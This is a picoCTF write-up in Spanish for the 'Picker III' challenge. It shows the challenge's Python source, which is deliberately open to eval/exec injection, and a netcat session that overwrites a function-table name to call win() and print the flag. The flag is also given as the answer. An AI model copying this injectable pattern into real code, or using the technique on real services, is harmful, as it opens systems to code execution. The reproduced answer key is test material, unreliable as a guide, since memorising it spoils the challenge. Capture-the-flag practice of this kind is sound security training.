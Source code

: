 # Retos picoCTF

# Level Picker III

## Objetivo
Can you figure out how this program works to get the flag?
Connect to the program with netcat:
$ nc saturn.picoctf.net 49754
The program's source code can be downloaded here.
## Solucion
picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_a186f9ac}

´´´
┌──(kali㉿kali)-[~/Downloads/PickerIII]
└─$ ls
picker-III.py
                                                                            
┌──(kali㉿kali)-[~/Downloads/PickerIII]
└─$ cat picker-III.py 

import re



USER_ALIVE = True
FUNC_TABLE_SIZE = 4
FUNC_TABLE_ENTRY_SIZE = 32
CORRUPT_MESSAGE = 'Table corrupted. Try entering \'reset\' to fix it'

func_table = ''

def reset_table():
  global func_table

  # This table is formatted for easier viewing, but it is really one line
  func_table = \
'''\
print_table                     \
read_variable                   \
write_variable                  \
getRandomNumber                 \
'''

def check_table():
  global func_table

  if( len(func_table) != FUNC_TABLE_ENTRY_SIZE * FUNC_TABLE_SIZE):
    return False

  return True


def get_func(n):
  global func_table

  # Check table for viability
  if( not check_table() ):
    print(CORRUPT_MESSAGE)
    return

  # Get function name from table
  func_name = ''
  func_name_offset = n * FUNC_TABLE_ENTRY_SIZE
  for i in range(func_name_offset, func_name_offset+FUNC_TABLE_ENTRY_SIZE):
    if( func_table[i] == ' '):
      func_name = func_table[func_name_offset:i]
      break

  if( func_name == '' ):
    func_name = func_table[func_name_offset:func_name_offset+FUNC_TABLE_ENTRY_SIZE]
  
  return func_name


def print_table():
  # Check table for viability
  if( not check_table() ):
    print(CORRUPT_MESSAGE)
    return

  for i in range(0, FUNC_TABLE_SIZE):
    j = i + 1
    print(str(j)+': ' + get_func(i))


def filter_var_name(var_name):
  r = re.search('^[a-zA-Z_][a-zA-Z_0-9]*$', var_name)
  if r:
    return True
  else:
    return False


def read_variable():
  var_name = input('Please enter variable name to read: ')
  if( filter_var_name(var_name) ):
    eval('print('+var_name+')')
  else:
    print('Illegal variable name')


def filter_value(value):
  if ';' in value or '(' in value or ')' in value:
    return False
  else:
    return True


def write_variable():
  var_name = input('Please enter variable name to write: ')
  if( filter_var_name(var_name) ):
    value = input('Please enter new value of variable: ')
    if( filter_value(value) ):
      exec('global '+var_name+'; '+var_name+' = '+value)
    else:
      print('Illegal value')
  else:
    print('Illegal variable name')


def call_func(n):
  """
  Calls the nth function in the function table.
  Arguments:
    n: The function to call. The first function is 0.
  """

  # Check table for viability
  if( not check_table() ):
    print(CORRUPT_MESSAGE)
    return

  # Check n
  if( n < 0 ):
    print('n cannot be less than 0. Aborting...')
    return
  elif( n >= FUNC_TABLE_SIZE ):
    print('n cannot be greater than or equal to the function table size of '+FUNC_TABLE_SIZE)
    return

  # Get function name from table
  func_name = get_func(n)

  # Run the function
  eval(func_name+'()')


def dummy_func1():
  print('in dummy_func1')

def dummy_func2():
  print('in dummy_func2')

def dummy_func3():
  print('in dummy_func3')

def dummy_func4():
  print('in dummy_func4')

def getRandomNumber():
  print(4)  # Chosen by fair die roll.
            # Guaranteed to be random.
            # (See XKCD)

def win():
  # This line will not work locally unless you create your own 'flag.txt' in
  #   the same directory as this script
  flag = open('flag.txt', 'r').read()
  #flag = flag[:-1]
  flag = flag.strip()
  str_flag = ''
  for c in flag:
    str_flag += str(hex(ord(c))) + ' '
  print(str_flag)

def help_text():
  print(
  '''
This program fixes vulnerabilities in its predecessor by limiting what
functions can be called to a table of predefined functions. This still puts
the user in charge, but prevents them from calling undesirable subroutines.

* Enter 'quit' to quit the program.
* Enter 'help' for this text.
* Enter 'reset' to reset the table.
* Enter '1' to execute the first function in the table.
* Enter '2' to execute the second function in the table.
* Enter '3' to execute the third function in the table.
* Enter '4' to execute the fourth function in the table.

Here's the current table:
  '''
  )
  print_table()



reset_table()

while(USER_ALIVE):
  choice = input('==> ')
  if( choice == 'quit' or choice == 'exit' or choice == 'q' ):
    USER_ALIVE = False
  elif( choice == 'help' or choice == '?' ):
    help_text()
  elif( choice == 'reset' ):
    reset_table()
  elif( choice == '1' ):
    call_func(0)
  elif( choice == '2' ):
    call_func(1)
  elif( choice == '3' ):
    call_func(2)
  elif( choice == '4' ):
    call_func(3)
  else:
    print('Did not understand "'+choice+'" Have you tried "help"?')
                                                                            
┌──(kali㉿kali)-[~/Downloads/PickerIII]
└─$ nc saturn.picoctf.net 49754
" Have you tried "help"?
==> 1ot understand "
1: print_table
2: read_variable
3: write_variable
4: getRandomNumber
==> 1
1: print_table
2: read_variable
3: write_variable
4: getRandomNumber
==> 3
Please enter variable name to write: read_variable
Please enter new value of variable: win
==> 2
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x61 0x31 0x38 0x36 0x66 0x39 0x61 0x63 0x7d 
==> 
Did not understand "" Have you tried "help"?
==> quit
´´´
## Referencias


